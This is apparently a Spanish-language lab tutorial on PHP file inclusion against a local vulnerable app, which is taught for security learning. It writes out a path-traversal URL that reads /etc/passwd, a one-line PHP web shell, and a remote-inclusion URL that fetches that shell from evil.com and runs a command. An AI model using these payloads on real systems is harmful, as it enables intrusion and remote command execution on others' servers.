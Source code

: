 ```bash
docker compose up -d
```

Accede a: [http://localhost:8080](http://localhost:8080)
Usuario: `admin` | Contraseña: `password`

---

### 📘 Ejemplo de LFI (Local File Inclusion)

Supón que tienes esta URL vulnerable:

```
http://localhost:8080/vulnerabilities/fi/?page=home.php
```

La aplicación está incluyendo archivos locales como este:

```php
<?php
    include($_GET['page']);
?>
```

#### ✅ Paso 1: Exploitar LFI para leer archivos del sistema

Cambia la URL a:

```
http://localhost:8080/vulnerabilities/fi/?page=../../../../etc/passwd
```

**Resultado:** verás el contenido del archivo `/etc/passwd`

Esto es posible porque el servidor **no validó ni restringió** qué archivos se podían incluir.

---

### 🌐 Ejemplo de RFI (Remote File Inclusion)

Esto es posible si el servidor permite incluir archivos remotos con `allow_url_include = On` en `php.ini`.

Supón que controlas un servidor remoto con un archivo PHP:

```php
<?php system($_GET['cmd']); ?>
```

Y está en:

```
http://evil.com/shell.txt
```

#### ✅ Paso 1: Exploitar RFI

Cambia la URL de la víctima a:

```
http://localhost:8080/vulnerabilities/fi/?page=http://evil.com/shell.txt&cmd=id
```
